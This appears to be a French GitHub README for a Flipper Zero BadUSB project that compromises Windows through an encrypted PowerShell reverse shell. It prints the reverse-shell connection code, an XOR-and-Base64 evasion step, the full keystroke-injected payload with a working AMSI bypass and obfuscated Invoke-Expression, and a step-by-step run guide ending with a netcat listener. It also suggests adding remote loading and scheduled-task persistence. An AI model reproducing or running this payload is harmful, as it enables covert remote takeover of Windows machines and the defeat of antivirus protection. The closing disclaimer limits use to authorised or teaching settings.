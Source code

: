 
# Reverse Shell PowerShell - Démo Red Team avec Flipper Zero (BadUSB)

Ce projet contient tout le nécessaire pour effectuer une démonstration réaliste de compromission Windows via **Flipper Zero en mode BadUSB**, à l'aide d'un **reverse shell PowerShell chiffré** et d'un **bypass Windows Defender (AMSI)**.

---

## 📁 Structure des fichiers

### 1. `reverse.ps1` – Reverse Shell brut
Ce script PowerShell contient un **reverse shell TCP** en clair, avec ton IP et ton port en dur. Il sera chiffré avant exécution pour éviter d'être détecté.

Exemple :
```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.198.141',9001);
$stream = $client.GetStream();
...
```

### 2. `encode.ps1` – Script d’encodage XOR + Base64
Ce script lit `reverse.ps1`, chiffre le contenu en **XOR (clé 23)**, puis l’encode en **Base64**.

Il génère une variable `$e = '...'` que tu peux coller dans ton script d'injection Flipper.

Exécution :
```powershell
.\encode.ps1
```

Il copie automatiquement le bloc final dans le presse-papiers.

---

### 3. `flipper-payload.txt` – Script injecté par Flipper Zero
Ce fichier est injecté via le module BadUSB du Flipper. Il simule une saisie clavier pour :

- Ouvrir PowerShell
- **Bypasser AMSI (anti-malware Windows)**
- Déchiffrer et exécuter le reverse shell en mémoire

**Contenu injecté (simplifié)** :
```powershell
# Bypass AMSI
$a=[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils");
$f=$a.GetField("amsiInitFailed","NonPublic,Static");
$f.SetValue($null,$true);

# Déchiffrement et exécution du shell
$k=23;
$e='TON_BLOC_BASE64';
$b=[Convert]::FromBase64String($e);
$d=$b|%{$_-bxor$k};
$s=[System.Text.Encoding]::UTF8.GetString($d);
$iex='I'+'nv'+'oke-Exp'+'ression';
&($iex) $s;
```

> Chaque ligne est découpée avec `STRING` et `ENTER` pour contourner la limite de caractères du champ `Windows+R`.

---

## 🛡️ Contournement de Windows Defender

Windows Defender (et AMSI) détecte et bloque :

- `Invoke-Expression`
- Les reverse shells classiques
- Les commandes trop visibles en clair

✅ **Ce projet contourne AMSI** via un accès en réflexion :

```powershell
$a = [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils")
$f = $a.GetField("amsiInitFailed", "NonPublic,Static")
$f.SetValue($null, $true)
```

Ce contournement désactive la détection AMSI uniquement dans la session PowerShell active.

---

## 🚀 Démonstration recommandée

1. Préparer ton fichier `reverse.ps1` avec ton IP & port
2. Lancer `encode.ps1` → récupère le bloc Base64
3. Intègre le bloc dans `flipper-payload.txt`
4. Ouvre un terminal sur ta machine d'écoute :
   ```bash
   nc -lvnp 9001
   ```
5. Branche le Flipper → Injection → Connexion entrante 📡

---

## 📌 Remarques

- Le payload est **100% local** → pas de téléchargement de script en clair
- Compatible Windows 10/11 avec PowerShell ≥ 5.1
- Peut être modifié pour un loader distant ou une persistance via Task Scheduler

---

## 🔐 À utiliser exclusivement dans un cadre pédagogique, légal ou autorisé.
